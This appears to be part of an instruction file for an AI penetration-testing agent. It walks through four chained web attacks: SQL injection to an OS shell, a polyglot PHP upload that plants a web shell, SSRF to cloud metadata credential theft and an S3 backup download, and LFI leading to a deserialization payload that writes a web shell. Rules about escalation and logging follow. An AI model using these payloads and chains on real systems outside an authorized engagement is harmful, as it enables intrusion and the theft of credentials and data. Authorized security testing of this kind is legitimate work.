


### Ref: Chained Exploitation Examples

Always attempt to chain vulnerabilities. An isolated medium-severity finding becomes critical when it enables a full compromise chain. Document the full chain in `Write("pentest/diagrams/<title>.mmd", "<mermaid>")`.

#### Chain 1: SQLi to File Read to Config Leak to RCE

```
# Step 1: Confirm SQLi in search parameter
Bash("curl ...")

# Step 2: Enumerate columns and read files via SQLi
Bash("sqlmap -u 'TARGET/search?q=test' --batch --file-read=/var/www/html/.env")

# Step 3: Extract database credentials from .env
# DB_HOST=localhost DB_USER=root DB_PASS=s3cret_p@ss DB_NAME=app

# Step 4: Use leaked credentials to access admin panel or connect directly
Bash("sqlmap -u 'TARGET/search?q=test' --batch --os-shell")
# Or use credentials for other services
Bash("hydra -l root -p 's3cret_p@ss' TARGET mysql")
```



#### Chain 2: File Upload Bypass to Path Traversal to Web Shell

```
# Step 1: Upload polyglot GIF+PHP with path traversal in filename
Bash("printf 'GIF89a<?php system($_GET[\"c\"]); ?>' > /tmp/shell.gif")
Bash("curl ...")

# Step 2: If direct path traversal is blocked, try double encoding
Bash("curl ...")

# Step 3: Access the uploaded shell
Bash("curl ...")

# Step 4: Escalate — read configs, pivot
Bash("curl ...")
```

#### Chain 3: SSRF to Cloud IMDS to S3 Access

```
# Step 1: Confirm SSRF in PDF generator / webhook URL parameter
Bash("curl ...")

# Step 2: Retrieve IAM role credentials via IMDS
Bash("curl ...")
# Response reveals role name, e.g., "webapp-role"

Bash("curl ...")
# Response contains AccessKeyId, SecretAccessKey, Token

# Step 3: Use leaked credentials to access S3
Bash("AWS_ACCESS_KEY_ID='AKIA...' AWS_SECRET_ACCESS_KEY='...' AWS_SESSION_TOKEN='...' aws s3 ls")
Bash("AWS_ACCESS_KEY_ID='AKIA...' AWS_SECRET_ACCESS_KEY='...' AWS_SESSION_TOKEN='...' aws s3 ls s3://company-backups/")
Bash("AWS_ACCESS_KEY_ID='AKIA...' AWS_SECRET_ACCESS_KEY='...' AWS_SESSION_TOKEN='...' aws s3 cp s3://company-backups/db-dump.sql /tmp/")
```



#### Chain 4: LFI to Source Code Leak to Deserialization RCE

```
# Step 1: LFI via php://filter to read application source
Bash("curl ...")
# Decode the base64 output to read source code

# Step 2: Identify deserialization in source (e.g., unserialize($_COOKIE['session']))
# Found: unserialize(base64_decode($_COOKIE['user_prefs']))

# Step 3: Find gadget classes in the codebase (read more files via LFI)
Bash("curl ...")
# Found: Logger class with __destruct() that calls file_put_contents($this->logfile, $this->data)

# Step 4: Craft serialized payload that writes a web shell
Bash("php -r \"
class Logger {
    public \\\$logfile = '/var/www/html/shell.php';
    public \\\$data = '<?php system(\\\$_GET[\\\"c\\\"]); ?>';
}
echo base64_encode(serialize(new Logger()));
\"")

# Step 5: Send the payload via the identified cookie
Bash("curl ...")

# Step 6: Access the written shell
Bash("curl ...")
```

---

## Finding Severity Guide

| Severity | Criteria | Examples |
|----------|----------|---------|
| **Critical** | RCE, full database dump, complete authentication bypass, cloud credential theft | SQLi to os-shell; deserialization RCE; SSRF to IMDS credential theft; upload bypass to web shell |
| **High** | Significant data access, partial auth bypass, stored XSS on admin pages, sensitive file read | Blind SQLi data exfil; LFI reading .env/config; SSRF to internal services; second-order SQLi |
| **Medium** | Information disclosure, reflected XSS, limited file read, race conditions with business impact | Reflected XSS; path traversal reading /etc/passwd; race condition on coupon redemption |
| **Low** | Minor information leak, self-XSS, theoretical vulnerabilities without proven impact | DOM XSS requiring unlikely user interaction; directory listing; verbose error messages |

---

## Chaining Other Skills

| Skill | When to invoke |
|-------|----------------|
| `/reverse-shell` | Command injection or RCE confirmed — generate payload and set up listener |
| `/post-exploit` | Shell obtained — privilege escalation, credential harvesting, persistence |
| `/credential-audit` | Credentials dumped via SQLi or config files — test them against other services |
| `/cloud-security` | SSRF to cloud metadata succeeded — IAM credential theft, S3/blob access |
| `/metasploit` | Known CVE in web framework — validate with Metasploit module |
| `/gh-export` | **MANDATORY** — invoke after `Write("pentest/summary.md", ...)` to format all findings as GitHub issue blocks |

---

## Rules

- **`Bash("mkdir -p pentest/{pocs,diagrams} && touch pentest/events.jsonl") + Write("pentest/scope.json", {...})` is mandatory** — never run any other tool before it
- **Batch independent tools in the same response** — they execute in parallel
- When any tool returns a LIMIT message, stop immediately and call `Write("pentest/summary.md", "<summary>")`
- **Mark cells `in_progress` BEFORE testing** — call `Bash("jq -nc --arg ts \"$(date -Iseconds)\" --arg cid '<cell_id>' --arg st 'in_progress' --arg tech '<technique>' --arg by '<tool>' --arg notes '<notes>' '{ts:$ts,type:\"cell_status\",cell_id:$cid,status:$st,technique:$tech,tested_by:$by,notes:$notes}' >> pentest/events.jsonl")` before you begin each cell. Update notes as you try techniques. This preserves your state across context compaction. The system will warn if you skip this step.
- **Include `tested_by` on every cell update** — when marking a cell tested_clean or vulnerable, include `"tested_by": "sqlmap"` (or Bash("curl ..."), commix, etc.) to create an audit trail. The completion gate will block if cells lack tool evidence.
- **Update the coverage matrix for every completed test** — mark `tested_clean`, `vulnerable`, `not_applicable`, or `skipped` with notes explaining what was tried. This is non-negotiable — it's how the matrix tracks completeness
- **NEVER mark cells from memory or prior session notes** — after context compaction, you MUST re-run actual tools to verify cell status. If a prior session summary says "sqlmap confirmed not injectable," you must run sqlmap AGAIN in this session. Prior session results are not evidence for current session cells.
- **N/A requires bypass testing for sqli/xxe/xss/ssti** — these injection types have known bypass techniques (Content-Type switching for XXE, blind/second-order for SQLi, encoding bypass for XSS, alternative syntax for SSTI). You MUST test the bypass technique before marking N/A. The system will warn if your N/A notes don't mention the bypass.
- **Never leave pending cells without testing or skipping** — every cell must be addressed with a status and notes before completing
- **Log escalation leads on findings** — when a finding opens new attack paths (e.g. SQLi → dump tables → crack hashes → try RCE), include `escalation_leads` in `Bash("jq -nc --arg ts \"$(date -Iseconds)\" --arg id 'f-001' --arg title '<title>' --arg sev 'high' --argjson leads '[{\"lead\":\"<x>\",\"status\":\"pending\"}]' '{ts:$ts,type:\"finding\",action:\"add\",id:$id,title:$title,severity:$sev,escalation_leads:$leads}' >> pentest/events.jsonl")` with each lead as `{"lead": "...", "status": "pending"}`. Follow up on each lead before moving to the next cell
- **Call `Bash("jq -nc --arg ts \"$(date -Iseconds)\" --arg id 'f-001' --arg title '<title>' --arg sev 'high' --argjson leads '[{\"lead\":\"<x>\",\"status\":\"pending\"}]' '{ts:$ts,type:\"finding\",action:\"add\",id:$id,title:$title,severity:$sev,escalation_leads:$leads}' >> pentest/events.jsonl")` for every confirmed exploit** — include the raw payload and response
- **For every confirmed exploit**: call `Bash("curl ...")` AND `Write("pocs/<title>.http", ...)`
- **Escalate when possible** — SQLi to dump creds to admin access to RCE is better than just reporting SQLi
- **Always try to chain exploits** — combine SSRF + IMDS, SQLi + file read, upload + traversal, LFI + deserialization
- **Test filter bypass systematically** — try encoding, case variation, null bytes, double encoding, PHP wrappers before giving up
- **Report the full chain** — use `Write("pentest/diagrams/<title>.mmd", "<mermaid>")` to show multi-step exploitation paths
- **Use `Bash("jq -nc --arg ts \"$(date -Iseconds)\" --arg msg '<message>' '{ts:$ts,type:\"note\",msg:$msg}' >> pentest/events.jsonl")` liberally** — document your reasoning for each exploitation attempt
- **Never fabricate findings** — only report what you can actually reproduce
- **Mermaid syntax rules**: use `flowchart TD`, quote labels with spaces/special chars, no em-dashes, short alphanumeric node IDs
- Call `# (no-op — tools native on Kali)` at the end if `Bash(...)` was used
